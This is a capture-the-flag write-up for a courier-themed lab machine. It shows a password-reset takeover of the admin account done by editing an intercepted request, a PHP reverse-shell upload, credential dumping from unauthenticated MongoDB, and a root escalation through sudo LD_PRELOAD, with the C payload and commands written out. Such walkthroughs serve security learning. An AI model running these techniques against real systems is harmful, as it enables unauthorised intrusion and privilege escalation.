

| Difficulty |
| ---------- |
|   Medium   |

---

### [ What is the user.txt flag? ]

As usual, let's start off with a `nmap` scan on the target machine.

```
sudo nmap -Pn -sC -sV -vv -T4 -p- 10.10.117.241
```

**Results:**

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
| ssh-rsa 
[REDACTED]
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPv3g1IqvC7ol2xMww1gHLeYkyUIe8iKtEBXznpO25Ja
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: FB0AA7D49532DA9D0006BA5595806138
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sky Couriers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Ports **22** (SSH) and **80** (HTTP) are open.

Nothing we can really do with the SSH server for now, so let's visit the HTTP web server first:


Looks like we have a courier website :airplane:

Doing some manual enumeration of the site, we find a login page when we click on the '**MERCHANT CENTRAL**' button on the main page:


We can try brute-forcing the administrator's credentials, but we need to find out their username first. For now, let's create our own account and see where that leads us.


Something to note is that the **username** used to log in is actually the **email address** of the user. This means that we need to find out the email address of the administrator in order to log into their account. 

After logging in, we are brought to the following dashboard:


There are a lot of buttons on the left side-bar, but I realized that almost all of them were non-functional. The only button that worked was the '**ResetUser**' button under '**Users**:


As the name suggests, this feature allows us to reset our password. Our username is also locked into the form so that we cannot directly edit it. Perhaps we will have to exploit this feature later on?

Moving on for now, we can also access our **Profile** settings by clicking on our name on the top right of the page:


Fortunately for us, the email address of the administrator is actually revealed at the bottom of the page - **admin@sky.thm**

Now that we know the email address, my first thought was to run a dictionary attack using `hydra`. However, before committing to that, let's see if we can exploit the '**ResetUser**' functionality first.

I changed my password and intercepted the request with `BurpSuite`:


Turns out the email address of the user is actually sent in the form-data of the request! What if we replace our email address with the admin's email address by editing the intercepted request?


The password was successfully changed! Let's try to log into the admin's account with our new password.


And we're in!

Now that we're in the administrator's account, we are able to upload a **profile picture**. Could we use this to upload a **reverse shell**?


I uploaded a test image called **test.jpg**. Now we need to find out where that image is uploaded to!

At first, I ran a `gobuster` scan on the target machine to check if we can enumerate any hidden image directories. Unfortunately, I was unable to find any.

Next, I checked the **source code** of the **Profile** page:


As seen above, the source code reveals that images are uploaded to **/v2/profileimages/**. Let's see if we can access our uploaded test image:


Nice! Now that we can access our uploaded files, we can upload a reverse shell and have the server execute it. 

**Wappalyzer** tells us that the server is running on **Apache**. Hence, we'll use a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell).

I uploaded the shell as **'shell.php'**. Luckily for us, there were no upload restrictions implemented. With a netcat listener up and running, I then accessed the file by visiting **/v2/profileimages/shell.php**:


The reverse shell was successfully opened!

There is a user called **webdeveloper** on the machine. The **user.txt** file can be found in his home directory: 



---

### [ What is the root.txt flag? ]

Let's find a way to escalate our privileges.

To automate the process of finding privesc vectors, I downloaded a tool called [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) onto the target machine and ran it.

While there were no clear privesc vectors found, there was something interesting in the results:


**MongoDB** is running on the machine. This [website](https://book.hacktricks.xyz/pentesting/27017-27018-mongodb) shows how we can exploit Mongo.

By default, Mongo does not require a password. Let's see if that is true in this case. We can start the MongoDB shell by simply running:

```
mongo
```

*Make sure to upgrade your shell to a fully-interactive shell first!*


Great! We've managed to connect to the MongoDB server without needing to authenticate.

Now, let's see what databases there are in the server:

```
show dbs
```


The '**backup**' db seems promising. Let's use it and list out its collections:

```
use backup
show collections
```


The '**user**' collection could contain something useful. Let's dump out its contents using the `find()` command:

```
db.user.find()
```


Nice! We've found the password of the **webdeveloper** user - **BahamasChapp123!@#**

With that, we can log into **webdeveloper's** account on the machine.


First thing I did was to check webdeveloper's **sudo privileges**:


Interesting... webdeveloper can run a binary called **sky_backup_utility** located in **/usr/bin** as **root**! No password is required as well. Let's take a look at this binary using `strings`:

**Snippet of binary:**


We can see that the binary is using the `tar` command to compress all files in the **/var/www/html** directory. Apart from this, it does not seem that we can use this binary right now to escalate our privileges.

Let's use our trusty LinPEAS script again to see if we can enumerate other privesc vectors with the webdeveloper account:


**env_keep+=LD_PRELOAD** was flagged out as an important privesc vector!

---

**I didn't know what LD_PRELOAD and env_keep was, so I did some research.**

*From: https://book.hacktricks.xyz/linux-unix/privilege-escalation:*

***LD_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.*

*If you find inside the output of sudo -l the sentence: env_keep+=LD_PRELOAD and you can call some command with sudo, you can escalate privileges.*

***env_keep** allows for the preservation of environment variables when using `sudo`.*

---

*The following exploitation method is from [here](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)*

To escalate our privileges, we first create a **C** file (I called it **pe.c**) in the **/tmp** directory:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

This script defines the **_init()** function, which will set the **gid** and **uid** to 0 (root) and then create a bash shell, thus opening a root shell.

Next, we compile the file:

```
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

This will generate a shared library file called **pe.so**.

Finally, we can trigger the exploit by running the following command. Note that we have to use a program that we can run with `sudo`, which in this case is `/usr/bin/sky_backup_utility`:

```
sudo LD_PRELOAD=/tmp/pe.so /usr/bin/sky_backup_utility
```

How this works is that when we run `/usr/bin/sky_backup_utility`, we are preloading the shared library that we created earlier (pe.so), which will thus be executed before any other shared libraries. 

To do so, we set the LD_PRELOAD env variable before running the binary (which is carried over when we run `sudo` due to **env_keep** being set). The **_init()** function in our preloaded library, **pe.so**, is then run, which opens up a root shell.


With that, we are **root** now! :smiling_imp:

The **root.txt** file can be found in the **/root** directory:


